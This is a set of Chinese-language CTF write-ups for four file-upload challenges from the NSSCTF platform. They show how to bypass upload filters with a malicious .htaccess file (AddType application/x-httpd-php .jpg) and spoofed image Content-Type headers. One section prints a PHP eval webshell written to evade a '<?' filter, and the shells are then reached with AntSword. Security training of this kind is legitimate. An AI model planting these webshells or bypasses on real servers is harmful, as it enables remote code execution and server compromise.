# 文件上传

## [SWPUCTF 2021 新生赛]easyupload1.0
>url:https://www.nssctf.cn/problem/388


打开题目叫我们上传.jpg文件

上传成功直接显示路径了，用蚁剑连接一下
直接连接没用，改一下后缀

然后连接成功

直接拿flag



## [SWPUCTF 2021 新生赛]easyupload3.0
>url:https://www.nssctf.cn/problem/436
>.hatccess,mime绕过


先传给jpg看看

上传成功但是连接不了

看到提示配合文件使用，说明这里应该要用.hatccess **.htaccess 可以“强行让图片当 PHP 执行”**
```
把上传包改成：
filename=".htaccess"
Content-Type: image/jpeg

文件内容：
AddType application/x-httpd-php .jpg
```
直接上传

然后重新上传一句话木马

连接成功

然后就拿到flag了



## [GXYCTF 2019]BabyUpload
>url:https://www.nssctf.cn/problem/1094
>知识点：.htaccess

直接上传一句话木马没有

经过不断上传东西发现会出现三种回复
1. 后缀名不能有ph！
2. 上传类型也太露骨了吧！
3. 诶，别蒙我啊，这标志明显还是php啊，这是**上传内容重含有<?**
所以重新构造一句话木马
```php
<script language="php">eval($_POST[x]);</script>
```
它不包含 <?,过滤检测不到,Apache 仍执行
把上传包改成：
```
filename=".htaccess"
Content-Type: image/jpeg
```
内容改为：
```
AddType application/x-httpd-php .jpg
```

构造第二个请求：
```
filename="shell.jpg"    Content-Type: image/jpeg

内容：
<script language="php">eval($_POST[x]);</script>

```

得到上传路径
```payload
var/www/html/upload/8f8f474cd76395198dd070b053961f3e/1.jpg succesfully uploaded!
```
然后蚁剑连接

最后找到flag



## [MoeCTF 2022]what are y0u uploading？
>url:https://www.nssctf.cn/problem/3351

打开题目直接上传一个图片木马


根据提示上传一个f1ag.php 
修改成f1ag.php之后直接就把flag给出来了
